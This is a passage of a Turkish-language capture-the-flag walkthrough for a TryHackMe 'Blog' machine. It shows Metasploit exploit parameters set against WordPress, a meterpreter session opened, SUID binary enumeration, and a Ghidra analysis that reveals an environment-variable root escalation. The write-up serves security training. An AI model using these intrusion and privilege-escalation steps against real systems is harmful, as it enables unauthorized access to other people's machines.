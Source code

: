 ```txt
   Id  Name
   --  ----
   0   WordPress

```
Exploitin kullanımı için zorunlu parametlere set edilir.

```txt
> set password *********
> set username kwheel
> set rhosts 10.10.25.92
> set lhost 10.9.62.67
```

## 2. Erişim Sağlanması

Run/Exploit komutu ile meterpreter oturumu elde edilmiş olur.

*/home/bjoel* dizin içeriği kontrol edildiğinde user.txt dosyası görülmektedir.

{{< image src="/images/thm/blog/home.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

 İçerik görüntülendiğinde tam bir hayal kırılığıdır. :sob:

{{< image src="/images/thm/blog/fake.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

`shell` komutu ile meterpreter oturumdan normal terminal oturumuna geçilir. Sistem genelinde user.txt araması yapıldığında başka dosya bulunamaz. User.txt dosyası yüksek kullanıcı erişimine sahip bir dizin içerisinde yer almaktadır.

## 3. Yetki Yükseltme

Yetki yükseltmek için suid biti aktif dosyalar tespit edilir. 
```bash
find / -perm -u=s -type f 2>/dev/null
```
{{< image src="/images/thm/blog/suid.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

***/usr/sbin/checker*** uygulaması dikkat çekmektedir. Uygulama çalıştırıldığında <mark>Not an Admin </mark> hatası vermektedir. Uygulamanın işleyişinin daha iyi anlaşılabilmesi için uygulama home dizinine kopyalanır ve tersine mühendislik araçları ile incelenmek üzere locale indirilir.

> Not: Home dizininde `python2 -m SimpleHTTPServer 8000` komutu çalıştılır. İster tarayıcıdan ister curl, wget gibi araçlarla dosya indirilebilir. 

Ghridra ile binary analiz edilir. ***getenv("parametre")*** fonksiyonu parametre aldığı değeri ortam değişkenleri içerisinde arar varsa değerini döndürür. *Admin değişkeni varsa uid değeri 0 (root) olarak set edilir ve /bin/bash başlatılır.*


{{< image src="/images/thm/blog/ghidra.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}
